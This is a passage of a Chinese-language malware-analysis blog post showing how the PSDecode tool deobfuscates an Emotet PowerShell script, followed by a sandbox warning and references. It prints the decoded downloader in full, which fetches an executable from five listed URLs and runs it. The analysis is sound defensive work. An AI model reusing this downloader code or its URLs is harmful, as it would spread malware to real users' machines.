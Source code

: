 稍微格式化一下之后，我们可以得到如下所示的代码：

```
$franc = new-object System.Net.WebClient;
$nsadasd = new-object random;
$bcd = ‘http://taswines.co.uk/AFh/,http://oilcom.com.ua/wZZ/,http://www.avcilarbinicilik.xyz/SkRagptdG/,http://randevu-dk.ru/q/,http://salon-grazia.ru/Hqrp/’.Split(‘,’);
$karapas = $nsadasd.next(1, 343245);
$huas = $env:public + ‘’ + $karapas + ‘.exe’;
foreach($abc in $bcd)`{`try`{`$franc.DownloadFile($abc.ToString(), $huas);
Invoke-Item($huas);
break;
`}`catch`{`write-host $_.Exception.Message;
`}``}`
```

在PSDecode的帮助下，我们迅速地将高度混淆化的PowerShell脚本成功解码了，而且我们还识别出了Emotet在感染第二阶段所使用的URL地址。<br>
我已经将PSDecode上传到了我的【GitHub】上，感兴趣的同学可以自行下载使用。我并不认为我是一个专业的开发者，而且我的个人时间也有限，该工具目前可支持使用的测试场景还十分有限，因此如果你想帮助我完善该工具的话，欢迎大家在GitHub上提交自己的代码。



## 注意事项

请在隔离的沙盒环境中运行该脚本，如果编码的PowerShell尝试执行其原本功能，那么它很有可能会影响你的运行平台。比如说，如果恶意脚本调用了Net.WebClient.DownloadFile()，那么它将会在你的主机中下载某种恶意文件，而这肯定不是你想要看到的了。



## 参考资料
1. 从GitHub下载PSDecode：【[点我下载](https://github.com/R3MRUM/PSDecode)】
1. 下载OfficeMalScanner：【[点我下载](http://www.reconstructer.org/code/OfficeMalScanner.zip)】
1. 《新型EMOTET木马变种分析》：【[报告链接](https://securingtomorrow.mcafee.com/mcafee-labs/emotet-downloader-trojan-returns-in-force/)】
1. 《焦点：Emotet信息窃取恶意软件威胁》：【[报告链接](https://www.cylance.com/en_us/blog/threat-spotlight-emotet-infostealer-malware.html)】
1. 《重写Java时你所需要了解的12条规则》：【[文章链接](http://www.codejava.net/java-core/the-java-language/12-rules-of-overriding-in-java-you-should-know)】